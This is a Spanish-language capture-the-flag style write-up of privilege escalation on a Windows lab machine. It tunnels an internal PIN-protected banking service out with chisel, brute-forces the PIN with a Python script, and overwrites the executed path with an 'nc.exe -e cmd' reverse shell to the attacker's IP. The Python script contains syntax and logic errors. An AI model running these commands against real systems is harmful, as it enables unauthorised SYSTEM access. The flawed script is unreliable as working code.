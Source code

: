 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
```

No tenemos privilegios interesantes como el **SeImpersonatePrivilege**, el **SeLoadPrivilege** o el **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

```bash
cd C:\Users\Administrator
cd C:\
netstat -nat
```

Aqui vemos un ejecutable llamado `bankv2.exe`. En este caso no lo vamos a analyzar. El **netstat** nos muestra un puerto **910** que no hemos visto
con nmap.

```bash
netstat -ano
tasklist
```

El comando `netstat -ano` nos permite ver el UID de los puertos abiertos y con el comando `tasklist`, miramos que servicio core para este UID.
En este caso vemos que es el mismo **bankv2.exe**.

Miramos con el **nc.exe** lo que es.

```bash
%temp%\nc.exe 127.0.0.1 910
#Output
Please enter your super secret 4 digit PIN code to login:
```

Como el puerto esta interno a la maquina, vamos a tirar de **chisel** para exponerlo a nuestra maquina de atacante y vamos a bruteforcear el pin con 
un script en python.

1. Descargamos chisel

    ```bash
    wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz
    mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz
    gunzip chisel.exe.gz
    ```

1. Transferimos chisel a la maquina victima

    - Desde la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - Desde la maquina victima

        ```bash
        cd %temp%
        powershell iwr -uri http://10.10.17.51/chisel.exe -OutFile C:\Windows\Temp\chisel.exe
        ```

1. Preparamos el chisel para linux en la maquina de atacante

    ```bash
    git clone https://github.com/jpillora/chisel/
    cd chisel
    go build -ldflags "-s -w" .
    upx chisel

    ./chisel server --reverse --port 1234
    ```

1. Lanzamos el cliente desde la maquina victima

    ```bash
    chisel.exe client 10.10.17.51:1234 R:910:127.0.0.1:910
    ```

Ahora ya tenemos accesso al puerto 910 de la maquina victima desde nuestra maquina. 

Ya podemos crear un script en python para que ataque este puerto. Pero primero creamos un diccionario de pins con crunch

```bash
crunch 4 4 -t %%%% > pins.txt
```

Creamos el `exploit.py`

```python
#!/usr/bin/python3

import pdb
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler

def tryPins():
    f = open("pins", "r")

    p1.log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    for pin in f.readlines():
        p1.status(b"Probando con PIN " + pin.strip('\n').encode())

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("127.0.0.1", 910))

        data = s.recv(4096)

        s.send(pin.encode())

        data = s.recv(1024)

        if "Access denied" not in data:
            p1.success(b"El PIN es " + pin.strip('\n').encode())
            sys.exit(0)

if __name__ == '__main__':
    tryPins()
```

Si lanzamos el script, encontramos el pin.

Vemos que podemos ejecutar transferencia de e-coin con este programa, intentamos cosas

```bash
Please enter the amount of e-coins you would like to transfer:
[$] 10
[$] Transfering $10 using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] asfessefseafews
[$] Transfering $asfessefseafews using our e-coin transfer application.
[$] Executing e-coin transfer tool: C:\Users\Documents\transfer.exe

Please enter the amount of e-coins you would like to transfer:
[$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application.
[$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Aqui no parece que estamos frente a un BufferOverflow pero vemos que a partir de una serie de caracteres, sobre escribimos el ejecutable que permite
enviar los e-coins.

1. Creamos un pattern

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
    #Output
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Lanzamos el ejecutable con esta cadena

    ```bash
    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application.
    [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Miramos el offset

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q 0Ab1
    #Output
    [+] Exact match at offset 32
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el binario con el input malicioso

    ```bash
    python -c 'print "A"*32 + "C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443"'
    #Output
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443

    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443 using our e-coin transfer application.
    [$] Executing e-coin transfer tool: C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    ```

Ya vemos que hemos ganado acceso al systema como `nt authority\system` y podemos ver la flag.